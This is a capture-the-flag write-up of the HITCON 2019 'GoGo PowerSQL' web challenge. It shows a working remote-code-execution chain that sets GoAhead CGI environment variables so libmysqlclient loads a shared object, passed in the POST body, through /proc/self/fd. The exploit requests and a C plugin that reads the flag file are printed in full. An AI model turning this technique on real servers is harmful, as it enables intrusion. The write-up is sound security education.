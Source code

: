 ```yaml
---
title: HITCON Qualification - GoGo PowerSQL
authors: Devon Maloney (plailect), Glenn Smith (glenns)
date: 2019-10-20
categories: web
---
```


This was a CGI binary written in C which used `libmysqlclient` to query results given by the user, powered by the [GoAhead](https://github.com/embedthis/goahead/) embedded web server.

The clear first point of attack was to try SQL injection and we found quite quickly that the code
filtered all characters in the input with `isalpha`. We also noticed that the buffer they were `snprintf`ing
the query into was of fixed size, 0x3ff. While we could not overflow this, we could truncate the closing quote leading to a MySQL error being printed to the page. The latter of these did not end up being useful in any way, but we spent some time looking into it so it is worth mentioning.

![bug](/assets/hc_powersql_bug.png)

Although we did not initially realize it, this challenge also made reference to a past vulnerability in GoAhead where query parameters were being passed to CGI scripts as environment variables. GoAhead had patched this vulnerability by prefixing all variables with `CLI_` (to prevent people from overwriting `LD_PRELOAD` etc) but the challenge explicitly unpatched this bug. That was an immediately obvious point of attack for us, and we set out to find an environment variable we could control.

```bash
RUN sed -i 's/CGI/\x0\x0\x0/g' /usr/local/bin/goahead
```

We quickly found that, although the challenge re-enabled arbitrary environment variable overwriting, it did not patch out the blacklist filtering which had been added as a hotfix patch. This filtering disallowed us the use of variables such as `PATH`, `IFS`, and anything that started with `LD_`, blocking access to all of the easy paths to RCE.

The first environment variable we attempted to exploit was `LANG`. Seeing how the challenge stripped characters from the input using `isalpha` and knowing that `isalpha` depended on the current locale, we searched for a locale that considered single quotes to be an alpha character. After spending a few hours toying around with the nightmare that is C and locale support, we discovered that, not only did the Dockerfile not install any languages other than POSIX and C, but that no locale we could find considered quotes to be an alpha character. Indeed, none of the locales we found had any different results for `isalpha` within the ASCII range (and there were no locales in the provided Docker container other than the standard `POSIX`, `C`, and `C.utf-8` locales anyway). As it turns out, locale support in C is, in general, extremely messy and configuration-specific.

![cppref1](/assets/hc_powersql_cppref1.jpg)

![cppref2](/assets/hc_powersql_cppref2.jpg)

After that waste of nearly a day, we started searching for a more exploitable environment variable. After consulting the (very poor) `libmysqlclient` documentation, we found that MySQL server (and client!) both load optional plugins from the a directory specified in the `LIBMYSQL_PLUGIN_DIR` environment variable, using names of plugins specified in the `LIBMYSQL_PLUGINS` environment variable, and these plugins are simply shared object libraries that get passed into `dlopen`. If we were able to load an arbitrary file with this, we could get code execution on the box and win. We had no way to drop files on the box, but we also knew from prior experience that CGI-bin implementations typically pass HTTP request bodies with `stdin`, so we set to crafting a request that would load a shared object that we controlled by loading from the file `/proc/self/fd/0`:

```python
import requests
requests.post("http://13.231.38.172/cgi-bin/query?name=a&LIBMYSQL_PLUGIN_DIR=" + "/proc/self/fd&LIBMYSQL_PLUGINS=0",data=open("testplugin.so","rb")).text
```

Unfortunately, we realized while testing on our local machines that this would not work as is. `libmysqlclient`, in its attempts to be helpful to the user, appends an extension to the plugin name before calling `dlopen` (`.so` in the case of Linux), resulting in it trying to load from `/proc/self/fd/0.so` which is not a valid file descriptor.

```c
/* From mysql/sql-common/client_plugin.c */

/* see <mysql/client_plugin.h> for a full description */
struct st_mysql_client_plugin *
mysql_load_plugin_v(MYSQL *mysql, const char *name, int type,
                    int argc, va_list args)
{
  char dlpath[FN_REFLEN+1];

  /* ... */

  /* Compile dll path */
  strxnmov(dlpath, sizeof(dlpath) - 1,
           mysql->options.extension && mysql->options.extension->plugin_dir ?
           mysql->options.extension->plugin_dir : PLUGINDIR, "/",
           name, SO_EXT, NullS);

  DBUG_PRINT ("info", ("dlopeninig %s", dlpath));
  /* Open new dll handle */
  if (!(dlhandle= dlopen(dlpath, RTLD_NOW)))
  {
    goto err;
  }

  /* ... */

}

```

Fortunately, we also realized that `libmysqlclient` uses a fixed size buffer to append this extension. If we sent enough characters in the plugin directory, we could overflow the extension and it would be cut off for us. 498 slashes later, we were successfully injecting arbitrary plugins into `libmysqlclient`:

```python
import requests
requests.post("http://13.231.38.172/cgi-bin/query?name=a&LIBMYSQL_PLUGIN_DIR=" + "/"*498 + "proc/self/fd&LIBMYSQL_PLUGINS=0",data=open("testplugin.so","rb")).text
```

Now we just needed a way to make `libmysqlclient` call our code so that we could read the flag. This was fairly trivially accomplished with a quick `__attribute__((constructor))`:

```c
#include <stdio.h>
/* gcc -shared -fPIC -o testplugin.so ./testplugin.c */
__attribute__((constructor))
void readflag() {
    FILE *f = fopen("/FLAG", "r");
    char buf[0x100];
    fread(buf, 1, 0x100, f);
    printf("%s\n", buf);
    fclose(f);
}
```

By combining this plugin with our library injection, we were able to achieve remote code execution and read the flag.

Interestingly, we learned after the CTF ended that this was [not the intended solution to this challenge](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/README.md#gogo-powersql):

```
1. Buffer Overflow the DB_HOST in BSS
2. Due to the patch, we can pollute environment variable which are not in the Blacklist.
3. Hijack MySQL connection by ENV such as LOCALDOMAIN or HOSTALIAES
4. Read /FLAG by LOAD DATA LOCAL INFILE.
```

The attack we have presented is more powerful than the intended solution as it allows for full RCE on the webserver rather than just control over the MySQL database and arbitrary file read.

